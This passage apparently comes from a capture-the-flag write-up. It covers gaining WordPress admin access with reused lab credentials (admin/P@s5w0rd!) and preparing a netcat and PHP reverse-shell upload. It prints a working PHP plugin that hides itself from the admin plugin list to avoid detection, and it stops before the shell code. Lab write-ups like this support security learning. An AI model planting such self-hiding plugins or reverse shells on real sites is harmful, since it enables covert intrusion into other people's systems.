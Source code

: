 It is a WordPress installation, so after a while with no other paths pop up, I'm terminating the `gobuster`.

[Back to top](#contents) ⤴

# WordPress Admin panel access

![WordPress landing page](https://cdn.hashnode.com/res/hashnode/image/upload/v1623251101474/unPjJjvzE.png align="left")

## `/wp-login.php`

I'm trying the known so far usernames and password from the previous boxes: `admin/P@s5w0rd!` lets me in.

It looks just like basic WP installation without internet access (errors from update feature and no plugin store).

[Back to top](#contents) ⤴

# Weaponize

To get access to the web server I'm going to upload a payload with `netcat` binary and PHP file that establish reverse shell to my host.

### pshield\_plugin.php

> This code hides plugin on the admin panel so it won't be easy tracked by other hackers

```php
<?php
    /*
   Plugin Name: It's Not A Reverse Shell Plugin
   Plugin URI: https://blog.cyberethical.me/
   description: A plugin that definitely is not creating a revershe shell.
   Version: 1.0
   Author: Asentinn
   Author URI: https://blog.cyberethical.me/
   License: MIT
   */

   function plugin_hide_pshield() {
    global $wp_list_table;
    $hidearr = array('pshield_plugin/pshield_plugin.php');
    $myplugins = $wp_list_table->items;
    foreach ($myplugins as $key => $val) {
      if (in_array($key,$hidearr)) {
        unset($wp_list_table->items[$key]);
      }
    }
  }

  remove_action('pre_current_active_plugins', 'plugin_hide_pshield');
  add_action('pre_current_active_plugins', 'plugin_hide_pshield');
?>
```
